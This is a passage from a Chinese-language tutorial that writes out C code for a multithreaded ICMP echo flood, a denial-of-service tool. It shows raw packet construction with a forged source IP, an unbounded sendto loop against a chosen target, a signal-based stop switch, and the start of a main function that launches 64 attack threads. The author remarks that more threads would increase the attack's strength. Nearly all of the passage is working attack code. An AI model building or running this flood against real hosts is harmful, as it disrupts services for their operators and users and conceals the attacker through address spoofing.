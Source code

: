 ```
    ip_hdr->ip_sum = 0;
    ip_hdr->ip_src.s_addr = inet_addr(FAKE_IP);; //伪装源地址
    ip_hdr->ip_dst.s_addr = dest;  //填入要攻击的目的主机地址

    icmp_hdr->icmp_type = ICMP_ECHO;
    icmp_hdr->icmp_code = 0;
    icmp_hdr->icmp_cksum = htons(~(ICMP_ECHO << 8));//注意这里，因为数据部分为0，我们就简化了一下checksum的计算了
}
```
 

### 2.搭建发包线程

```
void Dos_Attack()
{
    char* packet = (char*)malloc(ICMP_PACKET_SIZE);
    memset(packet, 0, ICMP_PACKET_SIZE);
    struct sockaddr_in to;
    DoS_icmp_pack(packet);

    to.sin_family = AF_INET;
    to.sin_addr.s_addr = dest;
    to.sin_port = htons(0);

    while(alive)  //控制发包的全局变量
    {
        sendto(rawsock, packet, ICMP_PACKET_SIZE, 0, (struct sockaddr*)&to, sizeof(struct sockaddr));        
    }

    free(packet);  //记得要释放内存
}
```

### 3.编写发包开关
这里的开关很简单，用信号量+全局变量即可以实现。当我们按下ctrl+c时，攻击将关闭。
```
void Dos_Sig()
{
    alive = 0;
    printf("stop DoS Attack!\n");
}
```

### 4.总的架构
我们使用了64个线程一起发包，当然这个线程数还可以大大增加，来增加攻击强度。但我们只是做做实验，没必要搞那么大。
```
int main(int argc, char* argv[])
{
    struct hostent* host = NULL;
    struct protoent* protocol = NULL;
    int i;
    alive = 1;
    pthread_t attack_thread[THREAD_MAX_NUM];  //开64个线程同时发包    
    int err = 0;

    if(argc < 2)
    {
        printf("Invalid input!\n");
        return -1;
    }

    signal(SIGINT, Dos_Sig);
```